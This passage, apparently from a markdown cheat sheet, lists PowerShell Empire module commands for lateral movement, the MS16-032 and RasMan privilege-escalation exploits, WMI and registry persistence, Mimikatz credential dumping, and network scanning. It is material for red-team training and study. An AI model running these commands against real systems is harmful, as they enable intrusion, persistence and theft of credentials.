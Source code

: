 | **Command**                    | **Description**                                               | **Example**                           |
|--------------------------------|---------------------------------------------------------------|---------------------------------------|
| `usemodule lateral_movement/invoke_wmi` | Use the WMI lateral movement module              | `usemodule lateral_movement/invoke_wmi` |
| `usemodule lateral_movement/invoke_psremoting` | Use the PowerShell remoting lateral movement module | `usemodule lateral_movement/invoke_psremoting` |
| `set <option> <value>`         | Set an option for the lateral movement module                 | `set Listener http`                   |
| `execute`                      | Execute the lateral movement module with the specified options| `execute`                             |

## Exploitation

| **Command**                    | **Description**                                               | **Example**                           |
|--------------------------------|---------------------------------------------------------------|---------------------------------------|
| `usemodule exploit/microsoft/rasman_reg` | Use the RasMan registry exploit                   | `usemodule exploit/microsoft/rasman_reg` |
| `usemodule exploit/microsoft/ms16_032` | Use the MS16-032 exploit                           | `usemodule exploit/microsoft/ms16_032` |
| `set <option> <value>`         | Set an option for the exploit module                          | `set Agent 1A2B3C4D`                  |
| `execute`                      | Execute the exploit with the specified options                | `execute`                             |

## Persistence

| **Command**                    | **Description**                                               | **Example**                           |
|--------------------------------|---------------------------------------------------------------|---------------------------------------|
| `usemodule persistence/elevated/wmi` | Use the WMI persistence module                   | `usemodule persistence/elevated/wmi`  |
| `usemodule persistence/user/registry` | Use the registry persistence module             | `usemodule persistence/user/registry` |
| `set <option> <value>`         | Set an option for the persistence module                      | `set Listener http`                   |
| `execute`                      | Execute the persistence module with the specified options     | `execute`                             |

## Credential Dumping

| **Command**                    | **Description**                                               | **Example**                           |
|--------------------------------|---------------------------------------------------------------|---------------------------------------|
| `usemodule credentials/mimikatz/logonpasswords` | Use the Mimikatz module to dump logon passwords | `usemodule credentials/mimikatz/logonpasswords` |
| `usemodule credentials/powershell/securestring` | Dump secure strings from memory                     | `usemodule credentials/powershell/securestring` |
| `set <option> <value>`         | Set an option for the credential dumping module               | `set Agent 1A2B3C4D`                  |
| `execute`                      | Execute the credential dumping module with the specified options | `execute`                          |

## Network Reconnaissance

| **Command**                    | **Description**                                               | **Example**                           |
|--------------------------------|---------------------------------------------------------------|---------------------------------------|
| `usemodule situational_awareness/network/portscan` | Use the port scanning module                   | `usemodule situational_awareness/network/portscan` |
| `usemodule situational_awareness/network/ping_sweep` | Perform a ping sweep across the network       | `usemodule situational_awareness/network/ping_sweep` |
| `set <option> <value>`         | Set an option for the network reconnaissance module           | `set Agent 1A2B3C4D`                  |
| `execute`                      | Execute the network reconnaissance module with the specified options | `execute`                        |
